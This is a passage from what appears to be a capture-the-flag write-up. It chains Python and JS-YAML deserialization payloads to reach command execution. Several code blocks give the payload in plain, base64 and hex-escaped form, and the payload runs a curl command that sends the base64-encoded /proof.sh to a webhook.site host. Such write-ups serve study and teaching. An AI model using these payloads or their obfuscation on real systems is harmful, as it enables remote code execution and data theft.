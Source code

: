 In here, we read the contents of `/proof.sh`, base64 encode it, and exfiltrate it by sending a POST request to our webhook site. (The POST request's data is from stdin.)

- Preparing our **client-side** YAML deserialization payload

To do so, the payload should set the cookie `debug` to `on`, and use `fetch` to send a POST request to `/debug`. However, the server-side YAML deserialization payload will cause a syntax error: (Or maybe I have skill issue lol)

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "print(__import__('pyodide').code.run_js('document.cookie=`debug=on`;const data=new URLSearchParams();data.append(`yaml`, `\"toString\": !<tag:yaml.org,2002:js/function> \"function (){console.log(process.mainModule.require(\'child_process\').execSync(\'cat /proof.sh | base64 -w0 | curl -d @- https://webhook.site/1ded601d-f3f1-40eb-a99c-ab9746346425\').toString())}\"`);fetch(`//localhost:3000/debug`,{method:`POST`,body:data})'))"
```

Since I hate escaping strings, I will base64 encode the server-side YAML deserialization payload. Then, in the client-side YAML deserialization payload, it base64 decodes the payload via `atob`. Also, because `listitems`'s value is just a string, we can just use hex characters.

Base64 encoded server-side YAML deserialization payload:

```
InRvU3RyaW5nIjogITx0YWc6eWFtbC5vcmcsMjAwMjpqcy9mdW5jdGlvbj4gImZ1bmN0aW9uICgpe2NvbnNvbGUubG9nKHByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlY1N5bmMoJ2NhdCAvcHJvb2Yuc2ggfCBiYXNlNjQgLXcwIHwgY3VybCAtZCBALSBodHRwczovL3dlYmhvb2suc2l0ZS8xZGVkNjAxZC1mM2YxLTQwZWItYTk5Yy1hYjk3NDYzNDY0MjUnKS50b1N0cmluZygpKX0i
```

Before turning `listitems` into hex characters:

```yaml
print(__import__('pyodide').code.run_js('document.cookie="debug=on";const data=new URLSearchParams();data.append("yaml", atob("InRvU3RyaW5nIjogITx0YWc6eWFtbC5vcmcsMjAwMjpqcy9mdW5jdGlvbj4gImZ1bmN0aW9uICgpe2NvbnNvbGUubG9nKHByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlY1N5bmMoJ2NhdCAvcHJvb2Yuc2ggfCBiYXNlNjQgLXcwIHwgY3VybCAtZCBALSBodHRwczovL3dlYmhvb2suc2l0ZS8xZGVkNjAxZC1mM2YxLTQwZWItYTk5Yy1hYjk3NDYzNDY0MjUnKS50b1N0cmluZygpKX0i"));fetch("//localhost:3000/debug",{method:"POST",body:data})'))
```

After turning `listitems` into hex characters:

```yaml
\x70\x72\x69\x6e\x74\x28\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x70\x79\x6f\x64\x69\x64\x65\x27\x29\x2e\x63\x6f\x64\x65\x2e\x72\x75\x6e\x5f\x6a\x73\x28\x27\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x3d\x22\x64\x65\x62\x75\x67\x3d\x6f\x6e\x22\x3b\x63\x6f\x6e\x73\x74\x20\x64\x61\x74\x61\x3d\x6e\x65\x77\x20\x55\x52\x4c\x53\x65\x61\x72\x63\x68\x50\x61\x72\x61\x6d\x73\x28\x29\x3b\x64\x61\x74\x61\x2e\x61\x70\x70\x65\x6e\x64\x28\x22\x79\x61\x6d\x6c\x22\x2c\x20\x61\x74\x6f\x62\x28\x22\x49\x6e\x52\x76\x55\x33\x52\x79\x61\x57\x35\x6e\x49\x6a\x6f\x67\x49\x54\x78\x30\x59\x57\x63\x36\x65\x57\x46\x74\x62\x43\x35\x76\x63\x6d\x63\x73\x4d\x6a\x41\x77\x4d\x6a\x70\x71\x63\x79\x39\x6d\x64\x57\x35\x6a\x64\x47\x6c\x76\x62\x6a\x34\x67\x49\x6d\x5a\x31\x62\x6d\x4e\x30\x61\x57\x39\x75\x49\x43\x67\x70\x65\x32\x4e\x76\x62\x6e\x4e\x76\x62\x47\x55\x75\x62\x47\x39\x6e\x4b\x48\x42\x79\x62\x32\x4e\x6c\x63\x33\x4d\x75\x62\x57\x46\x70\x62\x6b\x31\x76\x5a\x48\x56\x73\x5a\x53\x35\x79\x5a\x58\x46\x31\x61\x58\x4a\x6c\x4b\x43\x64\x6a\x61\x47\x6c\x73\x5a\x46\x39\x77\x63\x6d\x39\x6a\x5a\x58\x4e\x7a\x4a\x79\x6b\x75\x5a\x58\x68\x6c\x59\x31\x4e\x35\x62\x6d\x4d\x6f\x4a\x32\x4e\x68\x64\x43\x41\x76\x63\x48\x4a\x76\x62\x32\x59\x75\x63\x32\x67\x67\x66\x43\x42\x69\x59\x58\x4e\x6c\x4e\x6a\x51\x67\x4c\x58\x63\x77\x49\x48\x77\x67\x59\x33\x56\x79\x62\x43\x41\x74\x5a\x43\x42\x41\x4c\x53\x42\x6f\x64\x48\x52\x77\x63\x7a\x6f\x76\x4c\x33\x64\x6c\x59\x6d\x68\x76\x62\x32\x73\x75\x63\x32\x6c\x30\x5a\x53\x38\x78\x5a\x47\x56\x6b\x4e\x6a\x41\x78\x5a\x43\x31\x6d\x4d\x32\x59\x78\x4c\x54\x51\x77\x5a\x57\x49\x74\x59\x54\x6b\x35\x59\x79\x31\x68\x59\x6a\x6b\x33\x4e\x44\x59\x7a\x4e\x44\x59\x30\x4d\x6a\x55\x6e\x4b\x53\x35\x30\x62\x31\x4e\x30\x63\x6d\x6c\x75\x5a\x79\x67\x70\x4b\x58\x30\x69\x22\x29\x29\x3b\x66\x65\x74\x63\x68\x28\x22\x2f\x2f\x6c\x6f\x63\x61\x6c\x68\x6f\x73\x74\x3a\x33\x30\x30\x30\x2f\x64\x65\x62\x75\x67\x22\x2c\x7b\x6d\x65\x74\x68\x6f\x64\x3a\x22\x50\x4f\x53\x54\x22\x2c\x62\x6f\x64\x79\x3a\x64\x61\x74\x61\x7d\x29\x27\x29\x29
```
